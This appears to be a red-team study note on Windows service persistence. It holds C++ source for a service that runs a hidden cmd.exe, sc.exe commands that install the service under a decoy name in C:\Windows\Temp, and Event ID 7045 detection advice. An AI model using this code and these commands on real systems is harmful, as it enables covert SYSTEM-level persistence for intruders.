

> [!abstract] Persistence via Windows Services
> Windows Services (formerly known as NT Services) are long-running executable applications that run in their own sessions. They can start automatically when the computer boots (before any user logs in), making them a prime target for malware persistence and privilege escalation (often running as `NT AUTHORITY\SYSTEM`).
> **MITRE ATT&CK Mapping:** [T1543.003 - Create or Modify System Process: Windows Service](https://attack.mitre.org/techniques/T1543/003/)

## How Windows Services Work

> [!info] The Service Control Manager (SCM) Flow
> A service executable is not a standard background process; it must interact directly with the Windows Service Control Manager (SCM). When the SCM starts your executable, it expects the program to immediately connect to the SCM and provide a `ServiceMain` entry point.



---

## C++ Code: Service Shell Payload

> [!example]+ Code: Malware_Service.cpp
> This code implements a valid Windows Service. When started by the SCM, it will execute a hidden payload (`cmd.exe` in this case, which can be replaced with a beacon or reverse shell) and then gracefully terminate.
> 
> ```cpp
> #include <windows.h>
> #include <stdio.h>
> 
> SERVICE_STATUS_HANDLE hStatus;
> SERVICE_STATUS status;
> 
> // 1. Control Handler: Responds to SCM commands (like Stop)
> VOID WINAPI Handler(DWORD ctrl) {
>     switch(ctrl) {
>         case SERVICE_CONTROL_STOP:
>             status.dwCurrentState = SERVICE_STOPPED;
>             SetServiceStatus(hStatus, &status);
>             break;
>         default:
>             break;
>     }
> }
> 
> // 2. Payload Execution
> VOID RunPayload() {
>     STARTUPINFOA si = { sizeof(si) };
>     PROCESS_INFORMATION pi = { 0 };
>     
>     // Hide the process window
>     si.dwFlags = STARTF_USESHOWWINDOW;
>     si.wShowWindow = SW_HIDE;
>     
>     // Note: CreateProcessA requires a mutable string, not a literal
>     char cmd[] = "C:\\Windows\\System32\\cmd.exe"; 
>     
>     if (CreateProcessA(NULL, cmd, NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi)) {
>         // Wait for the payload to finish before stopping the service
>         WaitForSingleObject(pi.hProcess, INFINITE);
>         CloseHandle(pi.hProcess);
>         CloseHandle(pi.hThread);
>     }
> }
> 
> // 3. ServiceMain: Entry point called by the SCM
> VOID WINAPI ServiceMain(DWORD argc, LPTSTR *argv) {
>     // Register the control handler
>     hStatus = RegisterServiceCtrlHandlerA("Malware_Service", Handler);
>     if (!hStatus) return;
> 
>     // Initialize service status
>     status.dwServiceType = SERVICE_WIN32_OWN_PROCESS;
>     status.dwCurrentState = SERVICE_RUNNING;
>     status.dwControlsAccepted = SERVICE_ACCEPT_STOP;
>     status.dwWin32ExitCode = 0;
>     status.dwServiceSpecificExitCode = 0;
>     status.dwCheckPoint = 0;
>     status.dwWaitHint = 0;
> 
>     // Tell SCM the service is running
>     SetServiceStatus(hStatus, &status);
> 
>     // Execute the malicious payload
>     RunPayload();
> 
>     // Once payload is done, tell SCM to stop the service
>     status.dwCurrentState = SERVICE_STOPPED;
>     SetServiceStatus(hStatus, &status);
> }
> 
> // 4. main: Connects the process to the SCM
> int main() {  
>     SERVICE_TABLE_ENTRYA table[] = {
>         {"Malware_Service", ServiceMain},
>         {NULL, NULL}
>     };
>     
>     // This call blocks until the service stops
>     if (!StartServiceCtrlDispatcherA(table)) {
>         return 1;
>     }
>     return 0;
> }
> ```


---

## Deployment & Detection

> [!warning] How to Install the Service
> Compiling this code gives you an `.exe`, but it is not a service until it is registered with the SCM. Attackers typically use the native `sc.exe` binary or PowerShell to create the service:
> 
> ```cmd
> :: Copy the payload to a discreet location
> copy Malware_Service.exe C:\Windows\Temp\svchost_helper.exe
> 
> :: Create and start the service
> sc create "Malware_Service" binPath= "C:\Windows\Temp\svchost_helper.exe" start= auto
> sc start "Malware_Service"
> ```

> [!success] Defensive Detection (Event ID 7045)
> When a new service is created, Windows logs **Event ID 7045** (A new service was installed in the system) in the System log. Defenders should heavily monitor this event, especially when the `ServiceType` is `Own Process` and the `ImagePath` points to a non-standard or writable directory like `C:\Windows\Temp\` or `C:\Users\Public\`.

